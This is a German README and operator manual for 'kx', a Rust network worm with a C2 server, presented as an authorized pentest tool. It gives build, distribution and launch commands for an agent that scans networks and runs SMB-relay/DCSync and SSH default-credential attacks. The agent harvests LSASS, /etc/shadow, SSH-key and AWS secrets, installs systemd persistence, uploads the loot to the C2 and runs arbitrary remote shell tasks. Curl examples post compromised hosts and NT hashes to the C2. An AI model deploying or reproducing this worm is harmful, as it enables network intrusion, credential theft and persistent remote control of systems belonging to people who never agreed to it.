


# kx — autonomer Netzwerkwurm für autorisierte Penetrationstests

```
┌────────────────────────────────────────────────────────────────────────┐
│   kx  ·  Rust-Workspace mit 9 Crates                                   │
│   Entdecken → Scannen → Exploiten → Extrahieren → Persistieren → Melden│
│   C2-Backend mit axum + SQLite · selbstsigniertes TLS · Bearer-Token   │
└────────────────────────────────────────────────────────────────────────┘
```

> **Rechtlicher Hinweis — bitte lesen.** Dieses Werkzeug ist ausschließlich für
> **autorisierte** Penetrationstests und Red-Team-Übungen mit schriftlicher
> Genehmigung des Netzbetreibers bestimmt. Der Einsatz ohne Erlaubnis ist
> strafbar (§ 202a, § 202b StGB; § 87a BetrSGG). Der Autor übernimmt keine
> Haftung für missbräuchliche Verwendung. Der Betreiber stellt sicher, dass
> Scope, Zeitfenster und Zielsysteme vor dem Lauf schriftlich feststehen.

Dieses README ist das **Betriebshandbuch**: Installation, Einsatz, Steuerung,
Fehlersuche. Die reine Architektur-/Vertragsdokumentation liegt getrennt davon
in [`kx/README.md`](./kx/README.md) (Workspace) und
[`docs/egm-blueprint.md`](./docs/egm-blueprint.md) (Repository-Blueprint).

---

## Inhalt

| # | Abschnitt | Sprung |
|---|-----------|--------|
| 1 | [Was kx ist](#1--was-kx-ist) | Architektur in 60 Sekunden |
| 2 | [Architektur](#2--architektur) | Crates, Topologie, Datenfluss |
| 3 | [Voraussetzungen](#3--voraussetzungen) | Toolchain, Rechte, Exploit-Tools |
| 4 | [Installation](#4--installation) | Bauen, Artefakte, Cargo-Aliase |
| 5 | [Schnellstart](#5--schnellstart-in-10-minuten) | Server → Zertifikat → Agent → CLI |
| 6 | [Betrieb](#6--betrieb) | Server, Agent, CLI, Dashboard im Detail |
| 7 | [C2-API-Referenz](#7--c2-api-referenz) | Routen, Auth, Beispiele |
| 8 | [Steuerung im laufenden Betrieb](#8--steuerung-im-laufenden-betrieb) | Tasks, Logs, Abbruch |
| 9 | [Sicherheit](#9--sicherheit-und-härtung) | Checkliste vor dem ersten Lauf |
| 10 | [Troubleshooting](#10--troubleshooting) | Fehlerbilder und Lösungen |
| 11 | [Bekannte Einschränkungen](#11--bekannte-einschränkungen) | Was noch nicht fertig ist |
| 12 | [Tests und CI](#12--tests-und-ci) | Gates, Smoke-Test |
| 13 | [Repository-Struktur](#13--repository-struktur) | Baum und Dateien |

---

## 1 · Was kx ist?

`kx` ist ein **autonomer Netzwerkwurm** in Rust: ein Agent entdeckt Hosts im
Netz, scannt Dienste, versucht Exploits, extrahiert Zugangsdaten, installiert
Persistenz und meldet alles an einen C2-Server, den ein Operator über ein
Dashboard und eine CLI steuert.

Drei Binaries, klare Rollen:

```
┌──────────────┐   HTTPS/TLS    ┌────────────────┐   HTTPS/TLS    ┌──────────────┐
│  kx-agent    │ ─────────────▶ │   kx-server    │ ─────────────▶ │   kx-cli     │
│              │ POST /register │                │ GET /hosts     │              │
│ läuft im     │ POST /secrets  │ axum-API +     │ GET /secrets   │läuft auf dem │
│ Zielnetz     │                │ SQLite + HTML  │ GET /tasks     │ Operator-    │
│              │                │ Dashboard      │                │ Rechner      │
└──────────────┘                └────────────────┘                └──────────────┘
       │                                                             ▲
       ▼                                                             │
┌──────────────────────────────────────────────────────────────────────────┐
│ Zielsysteme: ARP-Sweep → TCP-Scan → SMB-Relay (445) / SSH (22) → Secrets  │
└──────────────────────────────────────────────────────────────────────────┘
```

**Was kx kann**

- ARP-gestützte Hostentdeckung im Layer-2-Segment (nur Linux) **oder** eine
  vorgegebene Host-Liste per `--hosts`
- Paralleler TCP-Connect-Scan gegen 12 Standarddienste
- SMB-Relay → DCSync gegen Windows (445) und SSH-Default-Credentials (22)
- Extraktion lokaler Secrets: LSASS, Credential Manager, Browser (Windows) —
  bzw. `/etc/shadow`, SSH-Keys, AWS-Credentials (POSIX)
- Persistenz: systemd-Unit bzw. Crontab (POSIX), Dienst/Run-Key/Task (Windows)
- **Task-Kanal**: Der Operator legt Kommandos an, der Agent holt sie, führt sie
  per Shell aus und meldet Status und Ausgabe zurück
- C2-Registry in SQLite, HTML-Dashboard, JSON- und CSV-Export

**Was kx nicht kann** (Stand heute, Details in [Abschnitt 11](#11--bekannte-einschränkungen))

- Keine Post-Quantum-Verschlüsselung der Beute — das KEM-Modul ist deaktiviert
- Keine WMI-/WinRM-Ausführung im Regelbetrieb — der Code existiert, hat aber
  keinen Aufrufer
- Der Task-Kanal führt **beliebige** Shell-Kommandos aus — es gibt keine
  Whitelist, keine Sandbox und keine Zeitgrenze

---

## 2 · Architektur

### 2.1 Die neun Crates



`kx-agent` ist das einzige Crate, das alle sechs Fachbereiche einbindet — es
ist der Wurm. `kx-core` und `kx-scanner` sind Basislagen ohne interne
Abhängigkeit; alle internen Abhängigkeiten sind `path`-Dependencies über
`workspace = true`.

### 2.2 Betriebstopologie

```
        ┌──────────────────────────────────────────────────────────┐
        │  Operator-Rechner                                        │
        │  kx-cli ────────────────┐        Browser ────────┐       │
        └─────────────────────────┼───────────────────────┼────────┘
                                  │  Bearer-Token        │
                                  ▼                       ▼
        ┌──────────────────────────────────────────────────────────┐
        │  C2-Server (kx-server)                                   │
        │  axum 0.8 · TLS (selbstsigniert) · SQLite (kx.db)        │
        │  :8443  ├─ /            Dashboard (HTML, ohne Auth)      │
        │         ├─ /api/login    Token-Prüfung (ohne Auth)       │
        │         └─ /api/*        Bearer-Token Pflicht (401)      │
        └──────────────────────────┬───────────────────────────────┘
                                   │ POST /api/register
                                   │ POST /api/secrets
                                   ▼
        ┌──────────────────────────────────────────────────────────┐
        │  Zielsystem (kx-agent)                                   │
        │  ARP-Sweep ─▶ TCP-Scan ─▶ SMB-Relay / SSH ─▶ Secrets     │
        │  Persistenz: /etc/systemd/system/kx-agent.service        │
        │              /etc/kx/kx-agent.env   (0600)               │
        └──────────────────────────────────────────────────────────┘
```

> **Wichtig:** Der C2-Server hört standardmäßig nur auf `127.0.0.1`. Für den
> Betrieb im Netz `--host 0.0.0.0` setzen **und** den Port zusätzlich per
> Firewall oder Reverse-Proxy absichern — die Datenbank enthält Klartext-
> Passwörter und NT-Hashes.

### 2.3 Datenfluss eines Agentenlaufs



Die **Host-Kennung** kommt aus dem Request und wird nicht mehr aus der IP
abgeleitet — Registrierung und Secret-Upload können so nicht auseinanderlaufen.
Eine leere `host_id` lehnt der Server mit 400 ab.

---

## 3 · Voraussetzungen

### 3.1 Toolchain

| Anforderung | Wert | Prüfung |
|---|---|---|
| Rust | MSRV **1.77**, verifiziert mit `rustc 1.99.1` | `rustc --version` |
| Edition | 2021, `resolver = "2"` | — |
| Cargo-Workspace | Verzeichnis `kx/` (nicht das Repo-Root!) | `cd kx` |
| Python 3 | nur für die Impacket-Exploits | `python3 --version` |
| `sshpass` | nur für SSH-Default-Credential-Tests | `which sshpass` |

```bash
# Rust installieren (falls nicht vorhanden)
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
export PATH="$HOME/.cargo/bin:$PATH"

# Prüfen
rustc --version && cargo --version
```

### 3.2 Plattformmatrix

| Komponente | Linux | macOS | Windows |
|---|---|---|---|
| `kx-server` | ✔ | ✔ | ✔ |
| `kx-cli` | ✔ | ✔ | ✔ |
| `kx-agent` | ✔ (voll) | ✔ ohne ARP-Sweep | ✔ via `x86_64-pc-windows-gnu` |
| ARP-Sweep (`kx-scanner`) | **nur Linux** (`AF_PACKET`) | – | – |
| SMB-Relay / WMI | ✔ (mit Impacket) | ✔ | ✔ (mit Impacket) |
| Windows-Secrets (LSASS, Credential Manager) | Stub | Stub | ✔ |

Der Workspace baut und testet auf **macOS und Linux** — die CI-Matrix erzwingt
das. Der ARP-Sweep ist vollständig mit `#[cfg(target_os = "linux")]`
ausgezeichnet; auf macOS/Windows kompiliert der Rest, der Sweep fehlt dort.

### 3.3 Optionale Exploit-Werkzeuge

Diese Werkzeuge laufen **auf dem Agenten-Host**, nicht auf dem Ziel:

| Werkzeug | Wird gebraucht für | Installation |
|---|---|---|
| `python3` + [Impacket](https://github.com/fortra/impacket) (`smbrelayx.py`) | SMB-Relay → DCSync | `pip3 install impacket` |
| `python3` + Impacket (`wmiexec.py`) | WMI-Ausführung (aktuell ohne Aufrufer) | `pip3 install impacket` |
| `sshpass` + `ssh` | SSH-Default-Credentials | `apt install sshpass` / `brew install sshpass` |

Ohne `sshpass` liefert der SSH-Zweig kontrolliert
`ExploitError::NoResult` — der Agent läuft weiter, sammelt aber keine
SSH-Credentials. Ohne Impacket fällt der SMB-Zweig mit einer Warnung aus.

> **Achtung `sshpass`:** Der Agent ruft `sshpass -f - ssh …` auf und wartet
> ohne Gesamt-Timeout auf das Ergebnis. Installierte `sshpass`-Versionen, die
> `-f -` nicht unterstützen (Homebrew-Build 1.10 auf macOS: `Failed to open
> password file "-"`), hängen den Agenten **unbegrenzt** auf, sobald ein Ziel
> Port 22 offen hat — der Lauf meldet dann nie seine Ergebnisse an den C2.
> Details und Workaround: [ISSUE-14](./.scratch/c2-operability/issues/ISSUE-14-agent-haengt-im-ssh-credential-test.md).
> Bis zur Behebung jeden Lauf in eine Timeout-Hülle setzen:
>
> ```bash
> timeout 300 ./kx-agent --server … --token … --server-cert …
> ```

### 3.4 Rechte

- **C2-Server:** keine Sonderrechte. Läuft idealerweise als unprivilegierter
  Dienst.
- **Agent:** Root **oder** `CAP_NET_RAW` für den ARP-Sweep:

  ```bash
  sudo setcap cap_net_raw+ep ./target/release/kx-agent
  ```

- **Persistenz-Installation:** Root (schreibt nach `/etc/systemd/system/`).

---

## 4 · Installation

### 4.1 Repository holen

```bash
git clone <repo-url> testwurm
cd testwurm/kx          # ← ab hier ist der Workspace-Root
export PATH="$HOME/.cargo/bin:$PATH"
```

### 4.2 Bauen

```bash
# Alles, alle Targets (Debug) — schnellster Weg zu einem grünen Build
cargo build --workspace --all-targets

# Release-Binaries für den Betrieb (empfohlen)
cargo build --release -p kx-server -p kx-agent -p kx-cli

# Nur der C2-Server (für den Smoke-Job der CI)
cargo build --release -p kx-server
```

Artefakte landen unter `kx/target/release/`:

| Binary | Pfad | Größenordnung |
|---|---|---|
| C2-Server | `target/release/kx-server` | ~6,9 MB |
| Agent | `target/release/kx-agent` | ~4,1 MB |
| Operator-CLI | `target/release/kx-cli` | ~4,0 MB |

### 4.3 Cargo-Aliase

Aus `kx/.cargo/config.toml`:

| Alias | Wirkung |
|---|---|
| `cargo kx-server` | `build -p kx-server --release` |
| `cargo kx-agent` | `build -p kx-agent --release` |
| `cargo kxctl` | `build -p kx-cli --release` |
| `cargo kx-test` | `test -p kx-core --release` |
| `cargo kx-agent-sys` | **defekt** — übergibt `--features syscalls`, das Feature existiert in keinem Manifest |

`cargo kx-agent-sys` bricht deshalb mit einem unbekannten Feature ab. Nicht
verwenden.

### 4.4 Binaries verteilen

Der Agent läuft auf dem Zielsystem, der Server auf deinem C2-Host, die CLI beim
Operator. Es gibt **kein** `cargo install` — die Crates sind Workspace-Member,
keine Published-Crates. Also:

```bash
# Auf dem C2-Host
scp target/release/kx-server  c2-host:/usr/local/bin/

# Auf dem Zielsystem (oder im CI-Artefakt)
scp target/release/kx-agent   zielsystem:/tmp/
scp target/release/kx-cli     operator:/usr/local/bin/
```

---

## 5 · Schnellstart in 10 Minuten

Der vollständige Durchlauf: Server hoch, Zertifikat an Agent und CLI bringen,
Agent laufen lassen, Ergebnisse abfragen, aufräumen.

> **Token-Regel:** Das Token ist der einzige Zugriffsschlüssel auf alles.
> Erzeugen, **einmalig** in Vaultwarden ablegen, überall denselben Wert
> verwenden, nie in Logs, Shell-History oder Commits schreiben.

### Schritt 1 — Token erzeugen

```bash
export KX_TOKEN="$(openssl rand -hex 32)"
# → jetzt in Vaultwarden ablegen, dann im Terminal NICHT mehr exportieren
```

Ohne gesetztes Token erzeugt der Server zwar ein zufälliges UUID, gibt es aber
**nicht** aus (`KX_SERVER_TOKEN` wird nur in der Prozess-Umgebung gesetzt) —
man käme nie an die API. Setze das Token deshalb immer explizit.

### Schritt 2 — C2-Server starten

```bash
cd kx                 # ← Workspace-Root (siehe 4.1)
export PATH="$HOME/.cargo/bin:$PATH"

./target/release/kx-server \
  --host 127.0.0.1 \
  --port 8443 \
  --db /tmp/kx-demo.db \
  --token "$KX_TOKEN" \
  --cn c2.test.local
```

Erwartete Ausgabe:

```
Kx-Server lauscht auf https://127.0.0.1:8443 (API: ...)
```

Der Server legt die SQLite-Datei an und erzeugt ein **selbstsigniertes**
Zertifikat im Speicher. Es wird bewusst **keine** `kx-server.crt`/`.key`
geschrieben.

> **Der Zertifikatsname ist Vertragsgegenstand.** `--cn` landet im
> SubjectAlternativeName des Zertifikats (`DNS:c2.test.local`) — der
> Subject-DN bleibt der rcgen-Default (`CN=rcgen self signed cert`).
> Agent und CLI prüfen den Namen gegen die URL, die du übergibst: Wer mit
> `https://127.0.0.1:8443` connectet, aber ein Zertifikat für `c2.test.local`
> bekommt, läuft in
> `invalid peer certificate: certificate not valid for name "127.0.0.1"`.
>
> Es gibt drei saubere Wege:
>
> 1. **Name, der auflöst** — `--cn c2.test.local` plus
>    `127.0.0.1 c2.test.local` in `/etc/hosts` (macOS/Linux) bzw. in der
>    Hosts-Datei des Zielsystems.
> 2. **Echten Hostnamen nehmen** — `--cn c2.example.org`, dann gegen
>    `https://c2.example.org:8443` connecten.
> 3. **Lokaler Test** — `--cn localhost`, dann `https://localhost:8443`.

### Schritt 3 — Server-Zertifikat für Agent und CLI exportieren

Weil der Server keine PEM-Datei ablegt, wird das Zertifikat direkt aus der
TLS-Verbindung gezogen:

```bash
openssl s_client -connect 127.0.0.1:8443 -servername c2.test.local </dev/null 2>/dev/null \
  | openssl x509 -outform PEM > /tmp/kx-server.pem

# Kontrolle: Name und Gültigkeit
openssl x509 -in /tmp/kx-server.pem -noout -dates
openssl x509 -in /tmp/kx-server.pem -noout -text | grep -A1 'Subject Alternative Name'
```

Erwartet wird `DNS:c2.test.local` in der Subject-Alternative-Name-Zeile.

Diese Datei ist der Vertrauensanker für Agent (`--server-cert`) und CLI
(`--cert`). Sie enthält **keinen** privaten Schlüssel und ist kein Geheimnis —
trotzdem gehört sie mit zur Beweissicherung des Tests.

### Schritt 4 — Authentifizierung prüfen

```bash
# ohne Token  → 401
curl -sk -o /dev/null -w '%{http_code}\n' https://127.0.0.1:8443/api/hosts

# falscher Token → 401
curl -sk -o /dev/null -w '%{http_code}\n' -H 'Authorization: Bearer falsch' \
  https://127.0.0.1:8443/api/hosts

# richtiger Token → 200
curl -sk -o /dev/null -w '%{http_code}\n' -H "Authorization: Bearer $KX_TOKEN" \
  https://127.0.0.1:8443/api/hosts

# unbekannter Pfad → 404 (kein Informationsleck)
curl -sk -o /dev/null -w '%{http_code}\n' -H "Authorization: Bearer $KX_TOKEN" \
  https://127.0.0.1:8443/gibtsnicht
```

Erwartet: `401`, `401`, `200`, `404`.

### Schritt 5 — Dashboard öffnen

```
https://c2.test.local:8443/
```

Das Dashboard fragt das Token über ein **Login-Formular** entgegen
(`POST /api/login`) — es steht **nicht** im Query-String und landet damit
weder in der Browser-Historie noch in den Server-Logs. Die Daten holt sich das
JavaScript selbst per `fetch` mit `Authorization`-Header; ohne Anmeldung
bleiben die Tabellen leer.

### Schritt 6 — Agent laufen lassen

Auf dem Zielsystem (oder auf einem Testsystem im Scope):

```bash
./kx-agent \
  --server https://c2.test.local:8443 \
  --token "$KX_TOKEN" \
  --server-cert /tmp/kx-server.pem \
  --iface eth0 \
  --start 192.168.10.1 \
  --end   192.168.10.50 \
  --own-ip 192.168.10.1
```

Ohne ARP-Sweep (macOS, kein `CAP_NET_RAW`, oder feste Zielliste) — `--start`
und `--end` bleiben trotzdem Pflichtargumente, `--hosts` übersteuert nur die
Entdeckung:

```bash
./kx-agent \
  --server https://c2.test.local:8443 \
  --token "$KX_TOKEN" \
  --server-cert /tmp/kx-server.pem \
  --start 10.0.0.1 \
  --end   10.0.0.254 \
  --hosts 10.0.0.5,10.0.0.6 \
  --own-ip 10.0.0.2
```

> **Achtung:** Der Agent installiert beim Start **Persistenz** (systemd-Unit
> unter `/etc/systemd/system/kx-agent.service` plus Environment-Datei
> `/etc/kx/kx-agent.env` mit Modus 0600). Nach dem Test entfernen — siehe
> [Schritt 8](#schritt-8--aufräumen).

### Schritt 7 — Ergebnisse abfragen

```bash
export KX_C2_URL="https://c2.test.local:8443"
export KX_C2_TOKEN="$KX_TOKEN"

./target/release/kx-cli --cert /tmp/kx-server.pem hosts
./target/release/kx-cli --cert /tmp/kx-server.pem secrets
./target/release/kx-cli --cert /tmp/kx-server.pem secrets --user administrator
./target/release/kx-cli --cert /tmp/kx-server.pem tasks
./target/release/kx-cli --cert /tmp/kx-server.pem export /tmp/beute.csv --format csv
```

### Schritt 8 — Aufräumen

```bash
# Persistenz entfernen (auf dem Zielsystem)
sudo rm -f /etc/systemd/system/kx-agent.service
sudo rm -f /etc/kx/kx-agent.env
sudo systemctl daemon-reload

# Exporte und Logs löschen (Klartext-Passwörter!)
rm -f /tmp/beute.csv /tmp/kx-demo.db
```

---

## 6 · Betrieb

### 6.1 C2-Server (`kx-server`)

| Option | Env-Variable | Standard | Beschreibung |
|---|---|---|---|
| `--host` | – | `127.0.0.1` | Bind-Adresse |
| `--port` | – | `8443` | TCP-Port |
| `--db` | – | `kx.db` | SQLite-Datei |
| `--token` | `KX_SERVER_TOKEN` | zufällig (nicht ausgegeben) | Bearer-Token |
| `--cn` | – | `kx.local` | Name im SubjectAlternativeName des Zertifikats — **muss zum Host in `--server`/`KX_C2_URL` passen** |

**Token-Auflösungsreihenfolge:** `--token` → `KX_SERVER_TOKEN` → zufällige UUID.
Der zufällige Wert wird **nicht** ausgegeben, sondern nur in die
Prozessumgebung geschrieben — für einen Betrieb ohne explizites Token gibt es
damit keinen Weg an das Token. Also: immer setzen.

**systemd-Unit für den C2-Server** (Beispiel, Token via Environment-Datei):

```ini
# /etc/systemd/system/kx-server.service
[Unit]
Description=Kx C2-Server
After=network-online.target

[Service]
Type=simple
User=kx
EnvironmentFile=/etc/kx/kx-server.env
ExecStart=/usr/local/bin/kx-server \
  --host 0.0.0.0 --port 8443 --db /var/lib/kx/kx.db --cn kx.local
Restart=on-failure
RestartSec=5

[Install]
WantedBy=multi-user.target
```

```bash
# /etc/kx/kx-server.env  (chmod 600, chown kx:kx)
KX_SERVER_TOKEN=<hier das Token>
```

Token **nie** an die Kommandozeile hängen: `/proc/<pid>/cmdline` ist für jeden
Prozess im System lesbar, ein Environment-File mit 0600 ist es nicht.

**Datenbank-Schema** (SQLite, drei Tabellen):

| Tabelle | Spalten |
|---|---|
| `hosts` | `id, ip, hostname, os, status, first_seen, last_seen` |
| `secrets` | `id, host_id, cred_type, username, password, source, collected_at` |
| `tasks` | `id, host_id, command, status, result, created_at` |

`status` bei Hosts: `discovered`, `compromised`, `agent`.

### 6.2 Agent (`kx-agent`)

| Option | Env-Variable | Standard | Beschreibung |
|---|---|---|---|
| `--server` | `KX_C2_URL` | **Pflicht** | C2-URL (`https://host:port`) |
| `--token` | `KX_C2_TOKEN` | **Pflicht** | Bearer-Token |
| `--server-cert` | – | **Pflicht** | PEM des Server-Zertifikats |
| `--iface` | – | `eth0` | Interface für den ARP-Sweep |
| `--start` | – | **Pflicht** | Start-IP des Scanbereichs |
| `--end` | – | **Pflicht** | End-IP des Scanbereichs |
| `--own-ip` | – | `192.168.1.100` | eigene IP = Host-Kennung des Agenten |
| `--hosts` | – | – | kommagetrennte Zielliste, umgeht ARP |
| `--relay-script` | – | `smbrelayx.py` | Pfad zum Impacket-Skript |
| `--wmi-script` | – | `wmiexec.py` | geparst, aber derzeit nicht ausgewertet |

**Ablauf eines Laufs**

```
0  Selbst-Registrierung    POST /api/register   (host_id = eigene IP)
1  Lokale Secrets           LSASS | shadow | SSH-Keys | AWS  → POST /api/secrets
2  Persistenz               systemd-Unit / Crontab / Windows-Dienst
3  Entdeckung               ARP-Sweep  ODER  --hosts-Liste
4  Scan + Exploit           TCP-Scan (12 Ports) → SMB-Relay (445) / SSH (22)
5  Report                   POST /api/register + POST /api/secrets
6  Tasks ausführen          GET /api/tasks → sh -c → POST /api/tasks/result
```

Schritt 6 läuft **nach** der Report-Phase: der Agent holt die offenen Tasks für
seine eigene `host_id`, führt sie aus (`sh -c` unter Unix, `cmd /C` unter
Windows) und meldet je Task Status (`done`/`failed`) und Ausgabe zurück. Die
Ausgabe wird auf **8 KiB** gekürzt, nicht verworfen.

**Gescannte Ports** (`COMMON_PORTS`):

| Port | Dienst | Port | Dienst |
|---|---|---|---|
| 22 | SSH | 3389 | RDP |
| 80 | HTTP | 1433 | SQL Server |
| 135 | RPC | 1521 | Oracle |
| 443 | HTTPS | 3306 | MySQL |
| 445 | SMB | 5432 | PostgreSQL |
| 5900 | VNC | 8080 | HTTP-Proxy |

**Proxy-Betrieb:** Für einen Wurm hinter einem Proxy ist `--hosts` der
unkomplizierte Weg — der ARP-Sweep funktioniert nur im Layer-2-Segment, ein
Weiterleiten über einen Router hinweg nicht.

### 6.3 Operator-CLI (`kx-cli`)

| Option | Env-Variable | Beschreibung |
|---|---|---|
| `--server` | `KX_C2_URL` | C2-URL (`https://host:port`) |
| `--token` | `KX_C2_TOKEN` | Bearer-Token |
| `--cert` | – | PEM des Server-Zertifikats (**Pflicht**) |

| Subcommand | Zweck | Zusatz |
|---|---|---|
| `hosts` | alle registrierten Hosts | — |
| `secrets` | alle erbeuteten Secrets | `--user <teilstring>` filtert |
| `export <pfad>` | Secrets in eine Datei schreiben | `--format json\|csv` (Default `json`) |
| `tasks` | alle Tasks listen | — |
| `task-create` | einen Task anlegen (der Agent führt ihn aus) | `--host_id <kennung> --command <befehl>` |

**Exportformate**

- `json` — Pretty-JSON mit **allen** Feldern inklusive `id`
- `csv` — Spalten `host_id,cred_type,username,password,source,collected_at` (ohne `id`)

Beide Formate enthalten **Klartext-Passwörter**. Datei nach dem Test löschen
und die Ablage regeln (verschlüsseltes Volume, kein Git, kein Home-Verzeichnis
mit World-Read).

**Typische Befehlsfolge**

```bash
export KX_C2_URL="https://c2.example.org:8443"
export KX_C2_TOKEN="$(vw get KX_C2_TOKEN)"     # Token aus Vaultwarden
KXCTL="./target/release/kx-cli --cert /etc/kx/kx-server.pem"

$KXCTL hosts
$KXCTL secrets --user svc_backup
$KXCTL export /var/tmp/kx-export.json --format json
```

### 6.4 Dashboard

| Route | Auth | Zweck |
|---|---|---|
| `GET /` | nein | HTML-Hülle mit Login-Formular und drei Tabellen |
| `POST /api/login` | nein | prüft das eingegebene Token (constant-time) |
| `GET /api/hosts` | Bearer | Hosts-Tabelle |
| `GET /api/secrets` | Bearer | Secrets-Tabelle |
| `GET /api/tasks` | Bearer | Tasks-Tabelle |

Das Dashboard escaped **jeden** API-Wert, bevor er in die Tabelle eingesetzt
wird. Ein vom Zielsystem kontrollierter Hostname ist Fremddaten — ohne
Escaping würde er in genau der Seite zu ausführbarem Markup, in der die
erbeuteten Passwörter stehen.

---

## 7 · C2-API-Referenz

Der gesamte Wire-Vertrag liegt in **`kx-core/src/c2.rs`** — Pfade und Typen an
genau einer Stelle. Agent, Server und CLI importieren alle daraus; wer einen
Pfad nur an einer Stelle ändert, bricht den Vertrag.

| Methode | Pfad | Auth | Richtung | Bedeutung |
|---|---|---|---|---|
| `POST` | `/api/register` | Bearer | Agent → Server | Host registrieren |
| `POST` | `/api/heartbeat` | Bearer | Agent → Server | Lebenszeichen |
| `POST` | `/api/secrets` | Bearer | Agent → Server | Secrets hochladen |
| `GET` | `/api/hosts` | Bearer | Client → Server | Hosts listen |
| `GET` | `/api/secrets` | Bearer | Client → Server | Secrets listen |
| `GET` | `/api/tasks` | Bearer | Agent/Client → Server | Tasks listen (Agent: eigene offene) |
| `POST` | `/api/tasks/new` | Bearer | Client → Server | Task anlegen |
| `POST` | `/api/tasks/result` | Bearer | Agent → Server | Task-Ergebnis melden |
| `GET` | `/` | nein | Client → Server | Dashboard |
| `POST` | `/api/login` | nein | Browser → Server | Token-Prüfung |

**Striktheitsregel (ADR-0001):** Antworttypen (`Host`, `ExfiltratedSecret`,
`Task`) tragen `deny_unknown_fields` — streng, weil hier der Schaden entsteht.
Request-Typen (`RegisterRequest`, `HeartbeatRequest`, `SecretUpload`,
`CreateTaskRequest`) sind lenient — unbekannte Felder werden ignoriert, damit
ein neuerer Agent einen älteren Server nicht bricht. Ein neues Feld in einem
Antworttyp erfordert Server **und** Client gleichzeitig, ein neues Feld in
einem Request-Typ nur den Client.

**Beispiele**

```bash
# Host registrieren
curl -sk -X POST https://127.0.0.1:8443/api/register \
  -H "Authorization: Bearer $KX_TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"host_id":"10.0.0.5","ip":"10.0.0.5","status":"compromised"}'

# Secret hochladen
curl -sk -X POST https://127.0.0.1:8443/api/secrets \
  -H "Authorization: Bearer $KX_TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"host_id":"10.0.0.5","cred_type":"nt_hash","username":"Administrator","password":"aad3…","source":"smb_relay"}'

# Task anlegen
curl -sk -X POST https://127.0.0.1:8443/api/tasks/new \
  -H "Authorization: Bearer $KX_TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"host_id":"10.0.0.5","command":"whoami"}'

